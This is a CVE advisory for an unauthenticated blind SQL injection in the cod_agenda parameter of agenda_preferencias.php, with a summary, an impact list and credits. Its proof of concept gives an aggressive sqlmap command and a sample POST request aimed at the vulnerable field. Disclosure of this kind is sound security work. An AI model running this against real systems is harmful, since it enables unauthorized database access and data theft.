

## CVE-2025-9606: SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda_preferencias.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-9606*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was discovered in the <code>cod_agenda</code> parameter of the <code>agenda_preferencias.php</code> endpoint. This issue allows any unauthenticated attacker to inject arbitrary SQL queries, potentially leading to unauthorized data access or further exploitation depending on database configuration.</p>

## Details

<p style="text-align: justify;">The application fails to properly sanitize user-supplied input in the <code>cod_agenda</code> parameter. As a result, specially crafted SQL payloads are interpreted directly by the backend database.</p>

## PoC

Vulnerable Endpoint: `agenda_preferencias.php`

Parameter: `cod_agenda`

### Command:

```terminal
sqlmap -r req.txt --risk=3 --level=5 --dbs --dbms=PostgreSQL --batch 
```

#### Example Request

```terminal
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&cod_agenda=2&envia_alerta=0&agenda_display=2
```



## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data (e.g., users, passwords, logs).</li>
    <li>Database enumeration (schemas, tables, users, versions).</li>
    <li>Escalation to RCE depending on DB configuration (e.g., xp_cmdshell, UDFs).</li>
    <li>Full compromise of the application if chained with other vulnerabilities.</li>
    <li>This issue affects all users and environments, as it does not require authentication and is reachable via a public endpoint.</li>
  </ul>
</p>

## Reference

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9606.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9606.md)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***